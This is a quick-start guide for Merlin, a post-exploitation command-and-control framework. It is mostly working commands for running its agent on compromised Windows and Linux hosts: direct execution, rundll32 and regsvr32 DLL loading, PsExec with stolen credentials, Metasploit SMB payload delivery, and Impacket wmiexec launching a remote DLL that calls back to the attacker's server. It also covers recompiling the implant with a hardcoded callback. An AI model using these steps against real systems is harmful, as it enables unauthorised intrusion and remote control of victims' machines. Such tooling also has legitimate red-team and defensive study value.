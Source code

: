 ###########
Quick Start
###########

.. _server_quickstart:

*************
Merlin Server
*************

The quickest and recommended way is to download Merlin Server from the `releases <https://github.com/Ne0nd0g/merlin/releases>`_
page for your host operating system (i.e Windows, macOS, or Linux).

The following single line of code can be used to download, extract, and run Merlin Server on an Ubuntu Server:

.. code-block:: bash

 sudo bash;apt update;apt install p7zip-full -y;cd /opt;wget https://github.com/Ne0nd0g/merlin/releases/latest/download/merlinServer-Linux-x64.7z;7z x -pmerlin -omerlin merlinServer-Linux-x64.7z;cd merlin;./merlinServer-Linux-x64

If you're using 7zip from the command line, but sure to use the ``x`` flag so that the files are extracted into their respective directories.

**The Merlin Server file download includes the CLI and compiled agents for all 3 major platforms in the** ``data/bin/`` **directory**

.. _agent_quickstart:

************
Merlin Agent
************

Merlin is a post-exploitation framework and therefore documentation doesn't cover any of the steps required to get to a
point where you can execute code or commands on a compromised host. Exploiting or accessing a host must performed prior
to leveraging Merlin.

| **Pre-compiled Merlin Agent binary files are distributed with the server download in the** ``data/bin/`` **directory of Merlin**

The Merlin Agent source code can be found https://github.com/Ne0nd0g/merlin-agent

Retrieve with Go and build the Agent::

    go get github.com/Ne0nd0g/merlin-agent

Upload & Execute
================

One of the more simple ways to run Merlin is by uploading the compiled binary file to a compromised host and then execute that binary.

| Don't forget to specify the address of your Merlin server with the ``-url`` flag. Default is `https://127.0.0.1:443/`

Windows Local Command Execution
===============================

This section covers executing the Merlin agent with local command execution.

Windows EXE - cmd.exe
---------------------

With the `merlinAgent.exe` binary file already downloaded on to the compromised host, execute it by calling it from the
command line. Double clicking the executable file will cause the agent to run **without** a window, so you will not see
anything, and it will connect to the **default** URL of `https://127.0.0.1:443/`.
This can be changed by recompiling the agent with the hardcoded address of your Merlin server.

cmd.exe example::

    C:\Users\Bob\Downloads>merlinAgent.exe -url https://192.168.1.100:443/

Windows DLL - rundll32.exe
--------------------------

With the `merlin.dll` binary file already downloaded on to the compromised host, execute it by calling it from the
command line using the `rundll32.exe` program that comes with Windows.
`Run` is the name of the DLL entrypoint called when the DLL is executed.
Provide the URL for your listening Merlin server after the entrypoint.

rundll32.exe example::

    C:\Users\Bob\Downloads>C:\WINDOWS\System32\rundll32.exe merlin.dll,Run https://192.168.1.100:443/

Windows Remote Command Execution
================================

This section covers executing Merlin agent when remotely accessing a host.

Windows EXE - PsExec.exe
-------------------------

The Microsoft Sysinternals `PsExec.exe <https://docs.microsoft.com/en-us/sysinternals/downloads/psexec>`_ application
can be used to connect to a remote host, upload the Merlin agent file, and execute it.
The downside to this is the Merlin agent binary file is "on disk" and provides an opportunity for Anti-Virus software
to detect the application. Use PsExec's `-c` flag to specify the location of the Merlin agent file on the attacker's
host that will be uploaded to the remote host. The PsExec `-d` flag is required so that control is returned to the user
after executing the Merlin agent file.

PsExec.exe example::

    PS C:\SysinternalsSuite>.\PsExec.exe \\192.168.1.10 -u bob -p password -d -c C:\merlin\data\bin\windows\merlinAgent.exe -url https://192.168.1.100:443/

Windows DLL - Metasploit's SMB Delivery
---------------------------------------

One method for delivery is to use an SMB server to host the payload and execute a command on the remote host to download
and run the Merlin agent file. The Metasploit `windows/smb/smb_delivery` module is a good way to quickly stand up an SMB
server for delivering the payload.

Setup the ``windows/smb/smb_delivery`` module::

    msf > use windows/smb/smb_delivery
    msf exploit(windows/smb/smb_delivery) > set FILE_NAME merlin.dll
    FILE_NAME => merlin.dll
    msf exploit(windows/smb/smb_delivery) > set EXE::Custom /opt/merlin.dll
    EXE::Custom => /opt/merlin/data/bin/dll/merlin.dll
    msf exploit(windows/smb/smb_delivery) > set DisablePayloadHandler true
    DisablePayloadHandler => true
    msf exploit(windows/smb/smb_delivery) > set VERBOSE true
    VERBOSE => true
    msf exploit(windows/smb/smb_delivery) > run
    [*] Exploit running as background job 0.
    msf exploit(windows/smb/smb_delivery) >
    [*] Server started.
    [*] Run the following command on the target machine:
    [*] Using custom payload /opt/merlin.dll, RHOST and RPORT settings will be ignored!
    rundll32.exe \\192.168.1.100\WxlV\merlin.dll,0


| **NOTE:** We must change the DLL entry point from `0` to `Run` and provide the URL of the listening Merlin server

Now that the SMB server is setup to deliver the `merlin.dll` file, we need to remotely access the target host and
execute the command. By default, Metasploit sets the entry point to `0`. We need to modify the command to change the
entry point to `Run` and specify the location of our listening Merlin server.
`Impacket's <https://github.com/CoreSecurity/impacket>`_ `wmiexec.py` Python program is one way to remotely access a host.

wmiexec.py example:

| **NOTE:** We must change the DLL entry point from `0` to `Run` and provide the URL of the listening Merlin server

.. code-block:: text

    root@kali:/opt/impacket/examples# python wmiexec.py bob:password@192.168.1.10
    Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

    [*] SMBv2.1 dialect used
    [!] Launching semi-interactive shell - Careful what you execute
    [!] Press help for extra shell commands
    C:\>rundll32.exe \\192.168.1.100\WxlV\merlin.dll,Run https://192.168.1.100:443/

Advanced
========

The quick start examples above executed the Merlin agent and allowed the user to dynamically specify the location of the
listening Merlin server with a command line parameter. There are a few instances where we the user is unable to specify,
or simply don't want to, the URL for the listening Merlin server. In this case, the Merlin agent binary should be
recompiled with a hardcoded URL of the listening Merlin server so that it does not need to be specified by the user
during execution.
*Do not continue on unless you are OK to deal with things that sometimes work and often have bugs and are not reliable.*

| This will require that you have Go and gcc installed on the host compiling the application

Recompile DLL
-------------

The `merlin.dll` file can be configured with the hardcoded url of your Merlin server.
To do this, clone the repo, modify the file, and recompile it.

1. Clone the merlin repository using git
2. Edit the `main.go` file
3. Find the string `var url = "https://127.0.0.1:443/"` and change the address
4. Compile the DLL

example::

    cd /opt
    git clone -b dev https://github.com/Ne0nd0g/merlin-agent-dll.git
    cd merlin-agent-dll
    sed -i 's_https://127.0.0.1:443/_https://192.168.1.100:443/_' main.go
    make

This will leave the `merlin.dll` in the `bin/v0.5.0/` directory where `v0.5.0` is the current version number of Merlin.
Now the recompiled version of the DLL can be run without having to specify the address of the Merlin server.

rundll32.exe examples:

* ``rundll32.exe merlin,main``

* ``rundll32.exe merlin,Run``

regsvr32.exe examples:

* ``regsvr32.exe /s merlin.dll``

* ``regsvr32.exe /s /u merlin.dll``

* ``regsvr32.exe /s /n /i merlin.dll``
